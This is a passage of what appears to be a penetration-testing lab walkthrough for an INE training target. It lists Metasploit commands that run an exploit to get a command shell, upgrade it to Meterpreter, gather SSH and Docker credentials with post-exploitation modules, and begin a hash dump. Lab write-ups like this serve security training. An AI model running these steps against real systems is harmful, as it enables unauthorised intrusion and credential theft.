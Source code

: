 Set the target IP address globally:

```bash
setg rhosts demo.ine.local
```

Run the exploit to gain a **cmd shell session**:

```bash
run
```

Put the session in the background:

```bash
background
```

### Upgrading to Meterpreter Session

Use the **shell_to_meterpreter** post-exploitation module to upgrade the shell session to a **Meterpreter session**:

```bash
use post/multi/manage/shell_to_meterpreter
set session [ID]
run
```

### Gathering SSH Credentials

Use the **ssh_creds** module to gather SSH credentials from the target system:

```bash
use post/multi/gather/ssh_creds
run
```

### Docker Credentials

Next, use the **docker_creds** module to gather Docker credentials:

```bash
use post/multi/gather/docker_creds
show options
set session [shellID]
run
```

### Interesting Credentials Found

After running the Docker credential-stealing module, we discover some interesting credentials:

![grafik](https://github.com/user-attachments/assets/fc8de591-c27a-4e80-87ca-ff570bdaf30b)

### Dumping Hashes

We attempt to dump password hashes using the **hashdump** module:
